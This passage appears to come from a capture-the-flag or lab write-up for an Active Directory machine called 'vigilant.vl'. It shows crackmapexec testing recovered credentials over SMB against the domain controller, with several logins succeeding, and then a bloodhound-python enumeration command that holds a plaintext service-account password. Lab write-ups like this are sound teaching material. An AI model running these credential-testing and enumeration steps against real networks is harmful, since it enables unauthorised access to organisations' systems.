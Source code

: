 ![alt text](../assets/images/172136013023687648.png)

lets try them on crackmapexec.

    SMB         10.10.216.69    445    DC               [-] vigilant.vl\Pamela.Clark:<redacted> STATUS_PASSWORD_EXPIRED 

    SMB         10.10.216.69    445    DC               [+] vigilant.vl\Alex.Powell:<redacted> 

    SMB         10.10.216.69    445    DC               [+] vigilant.vl\Edwin.Dixon:<redacted>

    SMB         10.10.216.69    445    DC               [+] vigilant.vl\Daniel.Washington:<redacted>

its work for smb but i didnt see anything different lets see first bloodhound.

    ➜  vigilant bloodhound-python -d 'vigilant.vl' -u 'svc_auditreporter' -p 'DeVeLoPeR712' -c all -ns 10.10.216.69

![alt text](../assets/images/Screenshot_2024-07-18_23_46_46.png)
